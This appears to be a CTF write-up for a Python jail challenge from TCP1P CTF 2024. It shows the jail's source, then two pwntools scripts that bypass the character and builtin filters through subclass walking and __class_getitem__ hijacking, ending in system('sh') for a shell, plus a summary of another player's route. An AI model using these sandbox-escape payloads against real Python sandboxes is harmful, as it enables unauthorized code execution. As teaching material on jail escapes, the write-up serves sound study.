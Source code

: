 # TCP1P CTF 2024 typically not a revenge

```python
#!/usr/bin/env python3
code = '''
import sys
import posix

__builtins__ = sys._getframe(0).f_builtins

for _ in unsafe_builtins:
    del __builtins__[_]
unsafe_builtins.clear()

posix.__dict__.clear()
sys.modules.clear()
for _ in sys.__dict__:
    sys.__dict__[_] = None

del sys, posix
'''

unsafe_builtins = []
unsafe_chars = 'FT!"#$%&\'()*+-,/;<=>?@\\^`{|}~0123456789\t\n\v '

for _ in __builtins__.__dict__:
    if not isinstance(__builtins__.__dict__[_], type):
        unsafe_builtins.append(_)
    elif _.startswith('_'):
        unsafe_builtins.append(_)
    elif _[0].islower():
        unsafe_builtins.append(_)

user_input = input('Enter code: ').strip()
for c in set(user_input):
    if c in unsafe_chars:
        assert 0, 'Unsafe character detected!'

assert len(user_input.split('\r')) < 3
assert user_input.isascii()
exec(code + user_input, {'unsafe_builtins': unsafe_builtins}, {})
```

Requirements:

1. No numbers: Use `arr[[]is[]]` for `arr[0]`, `arr[not[]is[]]` for `arr[1]`, `arr[not[]is[]:][not[]is[]]` for `arr[2]`
2. No parens: Use `[class[arg] for class.__class_getitem__ in [function_to_call]]` to call function
3. No assignments or commas: Use `[... for a in [b] for c in [d]]`
4. No spaces: Use `\f` i.e. form feed
5. No builtins: Use `[].__class__.__base__.__subclasses__()`
6. No sys module: Use `<class 'os._wrap_close'>` to find system

Inspired by writeup by @ayapi on Discord, although we use the different attack route eventually:

```python
from pwn import *
import sys

def bool2index(n):
    if n == 0:
        return '[[]is[]]'
    elif n == 1:
        return '[not[]is[]]'
    elif n > 1:
        return ''.join('[not[]is[]:]' for x in range(n-1))+'[not[]is[]]'

payload = f'''
try:__loader__
except Exception as e:[[[[[[[[[[[[[[[[[[[[cls[sh] for cls.__class_getitem__ in [system]] for sh in [cls[h]]] for cls.__class_getitem__ in [s.__add__]] for system in [cls[cls].system]] for cls.__class_getitem__ in [cls.get_source.__globals__[k{bool2index(7)}].__loader__.create_module]] for cls.name in [cls[x]]] for cls.get_source.__globals__[k{bool2index(9)}].builtin_module_names in [[cls[x]]]] for cls.__class_getitem__ in[cls[i].__add__]] for cls.__class_getitem__ in[cls[s].__add__]] for cls.__class_getitem__ in [cls[o].__add__]] for cls.__class_getitem__ in [k{bool2index(2)}{bool2index(2)}.__add__]] for h in [k{bool2index(11)}{bool2index(4)}]] for o in [k{bool2index(1)}{bool2index(3)}]] for s in [k{bool2index(4)}{bool2index(2)}]] for i in [k{bool2index(5)}{bool2index(4)}]] for x in [k{bool2index(21)}{bool2index(10)}]] for k in [cls[cls.get_source.__globals__]]] for cls.__class_getitem__ in [list]] for list in [[].__class__]] for cls in [e.__traceback__.tb_frame.f_back.f_globals[e.name].__class__]]
'''.strip().replace('\n', '\r').replace(' ', '\f')

r = remote('ctf.tcp1p.team', 32771)
r.sendline(payload.encode())
r.interactive()
```

To call function, we need a mutable object to write to its `__class_getitem__`:

```python
for x in __builtins__.__dict__:
    try:
        __builtins__.__dict__[x].__class_getitem__ = print
        print(x)
    except:
        pass
```

Output:

```
__loader__
__spec__
ExceptionGroup
quit
exit
copyright
credits
license
help
```

Here `ExceptionGroup` is not a member of `unsafe_builtins`, so we can use it for function call.

Steps:

1. Call `[].__class__.__base__.__subclasses__()` via `ExceptionGroup.__class_getitem__`
2. Locate `<class '_sitebuiltins._Helper'>` and `<class 'os._wrap_close'>` in the subclasses using the array index mechanism of `[False]`, `[True]`, `[True:][True]` ...
3. Synthesize `"system"` and `"sh"` from `_sitebuiltins._Helper.__doc__` via `"s".__add__("y").__add__("s").__add__("t").__add__("e").__add__("m")`
4. Find `system` in `<class 'os._wrap_close'>.__init__.__globals__["system"]`
5. Call `system("sh")`

Attach script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os_wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index
# assuming Helper is at 161
helper_index = 161
assert subclasses.split(", ").index("<class '_sitebuiltins._Helper'>") == helper_index

helper_doc = ().__class__.__base__.__subclasses__()[helper_index].__doc__


def get_index(index):
    # learn from @ayapi
    if index == 0:
        return "[[]is[]]"  # [False] i.e. [0]
    elif index == 1:
        return "[not[]is[]]"  # [True] i.e. [1]
    else:
        return (
            "".join(["[not[]is[]:]"] * (index - 1)) + "[not[]is[]]"
        )  # [True:][True:][True] i.e. [3]


p = process(["python3", "jail.py"])
p.sendline(
    (
        "[None "
        # [].__class__.__class__ = type
        # ExceptionGroup.__class_getitem__ = type.__subclasses__
        + "for ExceptionGroup.__class_getitem__ in [[].__class__.__class__.__subclasses__]"
        # locate helper: type.__subclasses__([].__class__.__base__))[helper_index]
        + f"for helper in [ExceptionGroup[[].__class__.__base__]{get_index(helper_index)}]"
        # locate os._wrap_close: type.__subclasses__([].__class__.__base__))[os_index]
        + f"for os in [ExceptionGroup[[].__class__.__base__]{get_index(os_index)}]"
        # read helper_doc
        + "for S in [helper.__doc__]"
        # prepare to synthesize "system" and "sh"
        + f"for s in [S{get_index(helper_doc.index("s"))}]"
        + f"for y in [S{get_index(helper_doc.index("y"))}]"
        + f"for t in [S{get_index(helper_doc.index("t"))}]"
        + f"for e in [S{get_index(helper_doc.index("e"))}]"
        + f"for m in [S{get_index(helper_doc.index("m"))}]"
        + f"for h in [S{get_index(helper_doc.index("h"))}]"
        # synthesize "system"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sy in [ExceptionGroup[y]]"
        + "for ExceptionGroup.__class_getitem__ in [sy.__add__]"
        + f"for sys in [ExceptionGroup[s]]"
        + "for ExceptionGroup.__class_getitem__ in [sys.__add__]"
        + f"for syst in [ExceptionGroup[t]]"
        + "for ExceptionGroup.__class_getitem__ in [syst.__add__]"
        + f"for syste in [ExceptionGroup[e]]"
        + "for ExceptionGroup.__class_getitem__ in [syste.__add__]"
        + f"for system in [ExceptionGroup[m]]"
        # synthesize "sh"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sh in [ExceptionGroup[h]]"
        # ExceptionGroup.__class_getitem__ = os.__init__.__globals__[system]
        + "for ExceptionGroup.__class_getitem__ in [os.__init__.__globals__[system]]"
        # call system("sh")
        + "for _ in [ExceptionGroup[sh]]"
        + "]"
    )
    .replace(" ", "\f")
    .encode()
)
p.interactive()
```

Here is the attack steps used in @ayapi's writeup on Discord:

1. Set `sys.builtin_module_names = ["posix"]`
2. Create `posix` module via `posix = builtins.__loader__.create_module([builtins.__spec__ for builtins.__spec__.name in ["posix"]][0])` (learned from [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/))
3. Call `posix.system("sh")`

